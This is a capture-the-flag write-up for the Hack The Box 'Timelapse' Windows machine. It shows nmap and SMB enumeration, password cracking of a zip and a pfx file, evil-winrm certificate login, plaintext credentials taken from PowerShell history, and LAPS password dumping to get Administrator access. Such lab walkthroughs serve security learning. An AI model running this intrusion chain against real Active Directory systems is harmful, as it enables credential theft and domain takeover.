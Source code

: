# Timelapse

---

## Enumeration

- nmap:

```
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-12 18:32:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Samba

- Allows anon access

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share
```

- Shares has winrm_backup.zip file, and MS Word docs
- Cracked .zip file password: `supremelegacy`
- .pfx certificate file?
- using openssl to read the certificate: http://www.freekb.net/Article?id=2460

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -info
```

- Needs password, crack it with John
- pfx password cracked : `thuglegacy`
- extract key:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

- extract cert:

```zsh
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

---

## Lateral Movement

- Connect using `evil-wirm` using the certificate and private key we got

```zsh
└─$ evil-winrm -S -k key.pem -c cert.pem -i $IP  

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

---

## PrivEsc

- Found creds in `C:\Users\legacyy\appdata\Roaming\Microsoft\windows\powershell\psreadline\ConsoleHost_history.txt`

```bash
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

- creds: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`

```zsh
evil-winrm -S -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i $IP
```

- Now I'm part of LAPS_Readers I can read user password:

```zsh
Get-ADComputer -Filter * -Property ms-Mcs-AdmPwd
```

- Password: `}tT.mPr7Up0527}sN3[9D7Ew`
- Login as admin:

```zsh
evil-winrm -S -i $IP -u "Administrator" -p '}tT.mPr7Up0527}sN3[9D7Ew'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

- Root flag wasnt in administrator's desktop:

```zsh
*Evil-WinRM* PS C:\Users\Administrator> Get-ChildItem -Path C:\ -Recurse -force -ErrorAction SilentlyContinue -Include root.txt
```

- Found in `C:\Users\TRX\Desktop\root.txt`

---

